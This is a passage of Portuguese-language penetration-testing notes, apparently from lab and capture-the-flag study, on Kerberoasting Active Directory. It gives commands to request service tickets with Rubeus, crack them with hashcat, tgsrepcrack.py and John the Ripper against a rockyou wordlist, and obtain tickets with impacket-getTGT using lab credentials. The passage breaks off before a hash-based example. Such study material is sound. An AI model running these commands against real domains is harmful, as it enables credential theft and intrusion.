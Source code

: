```
r.exe kerberoast /outfile:kerberoastables.txt /domain:active.htb /dc:dc.active.htb /format:john
hashcat -m 13100 -a 0 ticket.kirbi /usr/share/wordlists/rockyou.txt
```

Depois de requisitado esse ticket, podemos quebrá-lo de algumas formas, mas a mais tranquila seria com o tgsrepcrack.py

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>tgsrepcrack</p></figcaption></figure>

```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-
Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
```

Outra opção seria com john the ripper

kirbi2john.py

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>kirbi2john.py</p></figcaption></figure>

```
python kirbi2john.py /path/file.kirbi > kirbi.john
john --wordlist=/usr/share/rockyou.txt kirbi.john
```

Ainda temos outra forma de obter tickets via kerberos com o impacket. Vejam este exemplo:

a partir da enumeração deu pra obter a senha, mas caso consigamos o hash, também podemos obter o ticket, conforme os comandos abaixo:

```
impacket-getTGT -dc-ip <IP_do_DC> domain/user:password
```

Exemplo

```
impacket-getTGT -dc-ip 10.10.11.168 scrm.local/ksimpson:ksimpson
```

E agora o exemplo com o hash da senha (notem que fiz a conversão da senha para o hash NT):
